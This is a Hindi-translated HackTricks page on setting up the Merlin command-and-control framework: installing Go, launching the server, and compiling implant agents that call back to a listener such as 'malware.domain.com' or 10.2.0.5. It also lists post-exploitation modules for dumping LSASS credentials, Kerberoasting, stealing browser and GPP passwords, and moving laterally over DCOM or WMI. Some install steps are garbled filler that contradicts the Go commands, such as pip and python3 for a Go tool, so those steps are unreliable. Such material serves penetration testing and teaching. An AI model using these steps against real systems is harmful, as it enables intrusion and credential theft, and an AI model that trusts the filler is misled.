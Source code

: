 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की इच्छा है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFT संग्रह**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में PR जमा करके साझा करें।**

</details>


# स्थापना

## GO स्थापित करें
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## मर्लिन को इंस्टॉल करें

To install Merlin, follow these steps:

1. Download the Merlin repository from the official GitHub page.
2. Extract the downloaded file to a desired location on your machine.
3. Open a terminal and navigate to the extracted folder.
4. Run the command `pip install -r requirements.txt` to install the required dependencies.
5. Once the installation is complete, you can start using Merlin by running the command `python3 merlin.py`.

इन चरणों का पालन करके, मर्लिन को इंस्टॉल करें:

1. आधिकारिक GitHub पेज से मर्लिन रिपॉजिटरी डाउनलोड करें।
2. डाउनलोड की गई फ़ाइल को अपनी मशीन पर एक इच्छित स्थान पर निकालें।
3. एक टर्मिनल खोलें और निकाली गई फ़ोल्डर में जाएं।
4. आवश्यक डिपेंडेंसीज़ को इंस्टॉल करने के लिए निम्नलिखित कमांड को चलाएं: `pip install -r requirements.txt`।
5. स्थापना पूर्ण होने के बाद, आप मर्लिन का उपयोग करना शुरू कर सकते हैं इस कमांड को चलाकर: `python3 merlin.py`।
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# मर्लिन सर्वर लॉन्च करें

To launch the Merlin server, follow these steps:

1. Download the Merlin server package from the official website.
2. Extract the downloaded package to a desired location on your machine.
3. Open a terminal or command prompt and navigate to the extracted directory.
4. Run the following command to start the Merlin server:

   ```bash
   ./merlin-server
   ```

   This will launch the server and it will start listening for incoming connections.

5. By default, the server will listen on port 8080. If you want to use a different port, you can specify it using the `-p` or `--port` option followed by the desired port number. For example:

   ```bash
   ./merlin-server --port 8888
   ```

   This will start the server on port 8888 instead of the default port.

6. Once the server is running, you can access it using a web browser or any other HTTP client by navigating to `http://localhost:8080` (or the specified port if you changed it).

Note: Make sure to configure any necessary firewall rules or network settings to allow incoming connections to the Merlin server.
```
go run cmd/merlinserver/main.go -i
```
# मर्लिन एजेंट्स

आप [पूर्व-संकलित एजेंट डाउनलोड कर सकते हैं](https://github.com/Ne0nd0g/merlin/releases)

## एजेंट्स को कंपाइल करें

मुख्य फ़ोल्डर _$GOPATH/src/github.com/Ne0nd0g/merlin/_ पर जाएं
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **मैनुअल कंपाइल एजेंट्स**

एजेंट्स को मैनुअल रूप से कंपाइल करने के लिए निम्नलिखित चरणों का पालन करें:

1. **भाषा का चयन करें**: एजेंट को कंपाइल करने के लिए उपयुक्त भाषा का चयन करें। यह भाषा आपके लक्ष्यों और उपकरणों के अनुसार भिन्न हो सकती है, जैसे C++, Python, Java आदि।

2. **स्रोत कोड को संशोधित करें**: एजेंट के स्रोत कोड में आवश्यक बदलाव करें, जैसे निर्देशिका संरचना, नाम या अन्य पैरामीटर। यह आपकी आवश्यकताओं और उपयोग के अनुसार भिन्न हो सकता है।

3. **कंपाइल करें**: अपने चयनित भाषा के लिए कंपाइलर का उपयोग करके एजेंट को कंपाइल करें। यह एक बाइनरी फ़ाइल उत्पन्न करेगा जिसे आप बाद में उपयोग कर सकते हैं।

4. **एजेंट को वितरित करें**: कंपाइल किए गए एजेंट को अपने लक्ष्य सिस्टम पर वितरित करें। इसके लिए आप विभिन्न तकनीकों का उपयोग कर सकते हैं, जैसे ईमेल, साझा फ़ोल्डर, यूआरएल आदि।

5. **एजेंट को चलाएं**: वितरित किए गए एजेंट को लक्ष्य सिस्टम पर चलाएं। इसके लिए आपको उपयुक्त तकनीक का उपयोग करना होगा, जैसे दूरस्थ एक्सेस टूल, शेल स्क्रिप्ट, या अन्य उपकरण।

इन चरणों का पालन करके आप मैनुअल रूप से एजेंट्स को कंपाइल कर सकते हैं और उन्हें अपने लक्ष्य सिस्टम पर वितरित और चला सकते हैं।
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# मॉड्यूल

**बुरी खबर यह है कि मर्लिन द्वारा उपयोग किए जाने वाले प्रत्येक मॉड्यूल को स्रोत (Github) से डाउनलोड किया जाता है और उसे उपयोग करने से पहले डिस्क पर सहेजा जाता है। जाने माने मॉड्यूल का उपयोग करते समय सतर्क रहें क्योंकि Windows Defender आपको पकड़ लेगा!**


**SafetyKatz** --> संशोधित Mimikatz। LSASS को फ़ाइल में डंप करें और उस फ़ाइल में sekurlsa::logonpasswords को लॉन्च करें\
**SharpDump** --> निर्दिष्ट प्रक्रिया ID के लिए मिनीडंप (डिफ़ॉल्ट रूप में LSASS) (अंतिम फ़ाइल का एक्सटेंशन .gz है, लेकिन वास्तव में यह .bin है, लेकिन एक .gz फ़ाइल है)\
**SharpRoast** --> Kerberoast (काम नहीं करता है)\
**SeatBelt** --> स्थानीय सुरक्षा परीक्षण CS में (काम नहीं करता है) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> csc.exe /unsafe का उपयोग करके कंपाइल करें\
**Sharp-Up** --> पावरअप में सीशार्प में सभी जांचें (काम करता है)\
**Inveigh** --> PowerShellADIDNS/LLMNR/mDNS/NBNS स्पूफ़र और मैन-इन-द-मिडल टूल (काम नहीं करता है, लोड करने की आवश्यकता है: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)\
**Invoke-InternalMonologue** --> उपलब्ध सभी उपयोगकर्ताओं का अभिमान करता है और प्रत्येक के लिए एक चुनौती-प्रतिक्रिया प्राप्त करता है (प्रत्येक उपयोगकर्ता के लिए NTLM हैश) (बुरी URL)\
**Invoke-PowerThIEf** --> IExplorer से फ़ॉर्म चुराएँ या उस प्रक्रिया में JS को निष्पादित करें या उसमें DLL इंजेक्ट करें (काम नहीं करता है) (और PS भी काम नहीं करता है) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> ब्राउज़र पासवर्ड प्राप्त करें (काम करता है, लेकिन आउटपुट निर्देशिका को प्रिंट नहीं करता है)\
**dumpCredStore** --> Win32 Credential Manager API (https://github.com/zetlen/clortho/blob/master/CredMan.ps1) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> चल रही प्रक्रियाओं में क्लासिक इंजेक्शन का पता लगाएं (क्लासिक इंजेक्शन (OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)) (काम नहीं करता है)\
**Get-OSTokenInformation** --> चल रही प्रक्रियाओं और धागों की टोकन जानकारी प्राप्त करें (उपयोगकर्ता, समूह, विशेषाधिकार, मालिक... https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class)\
**Invoke-DCOM** --> DCOM के माध्यम से एक कमांड (दूसरे कंप्यूटर में) निष्पादित करें (http://www.enigma0x3.net.) (https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)\
**Invoke-DCOMPowerPointPivot** --> PowerPoint COM ऑब्जेक्ट्स (ADDin) का दुरुपयोग करके ओथे पीसी में एक कमांड निष्पादित करें\
**Invoke-ExcelMacroPivot** --> Excel में DCOM का दुरुपयोग करके ओथे पीसी में एक कमांड निष्पादित करें\
**Find-ComputersWithRemoteAccessPolicies** --> (काम नहीं करता है) (https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/)\
**Grouper** --> ग्रुप नीति के सभी रोचक हिस्सों को डंप करता है और उनमें खोज करता है कि उपयोग के लिए कुछ खोजने योग्य है या नहीं। (पुराना हो गया है) Grouper2 पर एक नज़र डालें, बहुत अच्छा दिखता है\
**Invoke-WMILM** --> लैटरली मूवमेंट के लिए WMI\
**Get-GPPPassword** --> groups.xml, scheduledtasks.xml, services.xml और datasources.xml खोजें और प्लेनटेक्स्ट पासवर्ड प्राप्त करें (डोमेन के अंदर)\
**Invoke-Mimikatz** --> mimikatz का उपयोग करें (डिफ़ॉल्ट डंप क्रेडेंशियल्स)\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> कंप्यूटरों में उपयोगकर्ताओं की विशेषाधिकारों की जांच करें\
**Find-PotentiallyCrackableAccounts** --> SPN के साथ जुड़े उपयोगकर्ता खातों के बारे में जानकारी प्राप्त करें (Kerberoasting)\
**psgetsystem** --> getsystem

**स्थायित्व मॉड्यूल नहीं जांचे**

# सारांश

मुझे इस उपकरण की भावना और क्षमता बहुत पसंद है।\
मुझे आशा है कि उपकरण सर्वर से मॉड्यूल डाउनलोड करना शुरू करेगा और स्क्रिप्ट डाउनलोड करते समय किसी तरह की टालमटोल शामिल करेगा।


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a
